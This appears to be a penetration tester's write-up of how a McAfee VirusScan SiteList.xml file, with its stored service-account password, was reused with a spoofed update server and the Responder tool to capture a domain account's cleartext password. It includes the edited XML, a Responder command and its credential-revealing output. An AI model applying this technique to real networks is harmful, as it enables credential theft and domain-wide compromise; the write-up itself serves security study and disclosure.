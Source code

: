 
# McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

#### 02/02/2015 UPDATE

I have to say that agree with McAfee : this is not a security flaw in any McAfee product !

And please, find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB86503).

---

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on the *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

Ty !

[@tfairane](https://twitter.com/tfairane)
